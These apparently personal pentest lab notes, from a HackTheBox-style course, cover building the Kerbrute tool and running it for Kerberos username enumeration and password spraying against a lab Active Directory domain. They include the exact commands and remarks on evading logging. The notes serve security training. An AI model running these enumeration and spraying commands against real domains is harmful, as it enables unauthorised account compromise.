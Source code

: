 # Kerbrute

* Kerbrute can be a stealthier option for domain account enumeration.
* It takes advantage of the fact that Kerberos pre-authentication failures often will not trigger logs or alerts

### Cloning Kerbrute GitHub Repo

```shell-session
sudo git clone https://github.com/ropnop/kerbrute.git
```

#### Install

```
cd kerbrute
```

```shell-session
make help
```

* We can choose to compile just one binary or type `make all` and compile one each for use on Linux, Windows, and Mac systems (an x86 and x64 version for each).

```
sudo make all
```

* The newly created `dist` directory will contain our compiled binaries.

```shell-session
ls dist/
```

### Testing the kerbrute\_linux\_amd64 Binary

```shell-session
/kerbrute_linux_amd64 
```

#### Adding the Tool to our Path

```shell-session
echo $PATH
```

```shell-session
/home/htb-student/.local/bin:/snap/bin:/usr/sandbox/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/share/games:/usr/local/sbin:/usr/sbin:/sbin:/snap/bin:/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/home/htb-student/.dotnet/tools
```

**Moving the Binary**

```shell-session
sudo mv kerbrute_linux_amd64 /usr/local/bin/kerbrute
```

### Enumerating Users with Kerbrute

* look into [statistically-likely-usernames.md](statistically-likely-usernames.md "mention") for username list
  * [linkedin2username.md](linkedin2username.md "mention")
  * jsmith.txt is from this list

```shell-session
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt 
```

* &#x20;Using Kerbrute for username enumeration will generate event ID [4768: A Kerberos authentication ticket (TGT) was requested](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4768)
  * will be triggered if [Kerberos event logging](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/enable-kerberos-event-logging) is enabled via Group Policy

### Password Spraying Active Directory

* need valid\_users.txt file
  * use [password-spraying-making-a-target-user-list-active-directory.md](password-spraying-making-a-target-user-list-active-directory.md "mention")

```shell-session
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```

## Reference

* [https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute)
